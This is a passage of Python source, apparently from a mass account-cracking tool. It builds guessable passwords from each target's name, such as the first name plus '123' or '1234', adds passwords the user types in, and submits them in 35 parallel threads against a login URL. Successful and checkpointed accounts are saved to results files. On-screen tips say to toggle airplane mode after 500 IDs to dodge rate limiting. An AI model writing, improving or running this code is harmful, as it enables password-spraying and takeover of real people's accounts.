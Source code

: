                        uid, name = yntkts.split('|')
                       xz = name.split(' ')
                       if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6:
                           pwx = [name, xz[0]+xz[1], xz[0]+"123"]
                       else:
                           pwx = [name, xz[0]+xz[1], xz[0]+"123"]
                       kirim.submit(self.__metode__,url,uid,pwx)
                   except:pass
            hasil(ok,cp)
        elif pw in["2","02"]:
            print('%s════════════════════════════════════════\n[%s+%s] OK : results/OK-%s-%s-%s.txt'%(H,H,H,ha, op, ta))
            print('%s[%s+%s] CP : results/CP-%s-%s-%s.txt'%(H,H,H,ha, op, ta))
            print('%s══════════════════════════════════════════\n[%s!%s] Use Airplane Mode If You Result\n[%s!%s] After 500 Id Crack Use Airplane Mode\n[%s!%s] To stop %sCTRL+c%s on keyboard\n══════════════════════════════════════════'%(H,H,H,H,H,H,H,H,H))
            with YayanGanteng(max_workers=35) as kirim:
                for yntkts in self.id:
                   try:
                       uid, name = yntkts.split('|')
                       xz = name.split(' ')
                       if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6:
                           pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"12345", xz[0]+xz[1]]
                       else:
                           pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"12345", xz[0]+xz[1]]
                       kirim.submit(self.__metode__,url,uid,pwx)
                   except:pass
            hasil(ok,cp)
        elif pw in["3","03"]:
            print('%s════════════════════════════════════════\n%sMANUAL PASSWORD MENU%s'%(H,H,H))
            #print(" %s[%s!%s] Semakin banyak kombinasi password semakin lama proses crack!"%(N,M,N))
            print("%s[%s!%s] Use %sComa%s For Choice Password"%(H,H,H,H,H))
            print("%s[%s!%s] Example : %s786786,pakistan,123456%s"%(H,H,H,H,H))
            pw = input(f"{H}[{H}+{H}] Enter Choice Password : {H}").split(",")
            print('%s════════════════════════════════════════\n[%s+%s] OK : results/OK-%s-%s-%s.txt'%(H,H,H,ha, op, ta))
            print('%s[%s+%s] CP : results/CP-%s-%s-%s.txt'%(H,H,H,ha, op, ta))
            print('%s══════════════════════════════════════════\n[%s!%s] If You No Result Use {Airplane Mode} 5 Second\n[%s!%s] To stop %sCTRL+c%s on keyboard\n══════════════════════════════════════════'%(H,H,H,H,H,H,H,H,H))
            with YayanGanteng(max_workers=35) as kirim:
                for yntkts in self.id:
                   try:
                       uid, name = yntkts.split('|')
                       xz = name.split(' ')
                       if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6:
                           xxx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"12345", xz[0]+xz[1]]
                           pwx = xxx + pw
                       else:
                           xxx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"12345", xz[0]+xz[1]]
                           pwx = xxx + pw
                       kirim.submit(self.__metode__,url,uid,pwx)
                   except:pass
            hasil(ok,cp)
        else:
            print(f"\n {N}[{M}!{N}] Correct input");self.kombinasi_pw(url)

if __name__ == '__main__':
    file();__chigoue__();
